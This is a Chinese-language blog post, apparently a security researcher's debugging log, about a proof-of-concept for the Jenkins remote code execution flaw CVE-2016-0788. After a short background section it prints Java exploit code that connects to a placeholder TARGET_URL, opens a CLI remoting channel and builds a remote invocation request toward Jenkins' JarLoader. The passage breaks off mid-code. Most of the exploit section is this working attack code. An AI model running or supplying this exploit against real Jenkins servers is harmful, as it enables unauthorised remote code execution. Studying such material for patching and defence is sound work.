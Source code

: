 ```yaml
---
layout: post
title: Jenkins RCE 2(CVE-2016-0788) PoC 调试记录
description: "Poc for Jenkins RCE 2(CVE-2016-0788)"
category: scanner
tags: [scanner, java, Jenkins]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


### 概要

从去年开始，java安全领域因为反序列化这个问题爆出了大量的远程命令执行漏洞。可以说这一系列漏洞都是非常简单粗暴的，由于java的高权限、兼容通用等特性，攻击者往往会在短时间内使大批量系统中招，而且攻击成本相对较低。看到了乌云drops上分析Jenkins RCE 2(CVE-2016-0788)这个漏洞的文章[^1]，觉得调试起来应该不难，就跟着调通了漏洞的利用Poc。


[^1]: <http://drops.wooyun.org/papers/17716>

### 漏洞利用

对于目前的开源项目来说，安全漏洞发现后，很多安全研究人员会根据该项目的相关修复代码倒推攻击利用细节。Jenkins这个项目更是比较耿直，直接把很多攻击测试PoC写到了Junit测试样例中[^2]。


[^2]: <https://github.com/jenkinsci/jenkins/blob/9fce1ee933eb5276baff977d562fc8e183f1c8d6/test/src/test/java/jenkins/security/Security232Test.java>

{% highlight java linenos %}
public class Jenkins {

    public static void main( final String[] args) throws Exception {

        int jrmpPort = 12345;
        URL u = new URL("http://TARGET_URL/");

        HttpURLConnection hc = (HttpURLConnection) u.openConnection();
        int clip = Integer.parseInt(hc.getHeaderField("X-Jenkins-CLI-Port"));

        InetSocketAddress isa = new InetSocketAddress(u.getHost(), clip);
        Socket s = null;
        Channel c = null;
        try {
            System.err.println("* Opening socket " + isa);
            s = SocketFactory.getDefault().createSocket(isa.getAddress(), isa.getPort());
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);

            System.err.println("* Opening channel");
            OutputStream outputStream = s.getOutputStream();

            DataOutputStream dos = new DataOutputStream(outputStream);

            dos.writeUTF("Protocol:CLI-connect");

            ExecutorService cp = Executors.newCachedThreadPool();
            c = new ChannelBuilder("EXPLOIT", cp).withMode(Mode.BINARY).build(s.getInputStream(), outputStream);

            System.err.println("* Channel open");

            Class<?> reqClass = Class.forName("hudson.remoting.RemoteInvocationHandler$RPCRequest");

            Constructor<?> reqCons = reqClass.getDeclaredConstructor(int.class, Method.class, Object[].class);
            reqCons.setAccessible(true);

            Object getJarLoader = reqCons
                    .newInstance(1, Class.forName("hudson.remoting.IChannel").getMethod("getProperty", Object.class), new Object[] {
                            JarLoader.class.getName() + ".ours"
                    });

            Object call = c.call((Callable<Object,Exception>) getJarLoader);
            InvocationHandler remote = Proxy.getInvocationHandler(call);